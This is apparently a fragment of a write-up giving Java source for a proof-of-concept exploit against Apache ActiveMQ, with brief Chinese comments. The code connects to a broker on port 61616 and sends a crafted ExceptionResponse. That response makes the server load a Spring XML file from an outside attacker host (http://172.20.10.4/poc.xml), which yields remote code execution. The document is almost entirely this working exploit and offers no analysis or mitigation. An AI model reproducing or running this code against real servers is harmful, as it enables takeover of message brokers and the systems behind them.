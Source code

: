 ![image.png](assets/1700814472-5bdd3f8bd231433da6f70398ccbae24d.png)

```jsimport
import org.apache.activemq.ActiveMQConnectionFactory;  
import org.apache.activemq.command.ExceptionResponse;  
import org.apache.activemq.transport.AbstractInactivityMonitor;  
import org.springframework.context.support.ClassPathXmlApplicationContext;  

import javax.jms.\*;  
import java.io.\*;  
import java.lang.reflect.Method;  

public class MQ\_POC {  
    private static final String *ACTIVEMQ\_URL* \= "tcp://172.20.10.7:61616";  
    //定义发送消息的队列名称  
    private static final String *QUEUE\_NAME* \= "tempQueue";  
    public static void main(String\[\] args) throws Exception {  
        //创建连接工厂  
        ActiveMQConnectionFactory activeMQConnectionFactory = new ActiveMQConnectionFactory(*ACTIVEMQ\_URL*);  
        //创建连接  
        Connection connection = activeMQConnectionFactory.createConnection();  
        //打开连接  
        connection.start();  
        Throwable obj2 = new ClassPathXmlApplicationContext("http://172.20.10.4/poc.xml");  
        ExceptionResponse exceptionResponse = new ExceptionResponse(obj2);  

        ((ActiveMQConnection)connection).getTransportChannel().oneway(exceptionResponse);  
        connection.close();  
    }  
}
```
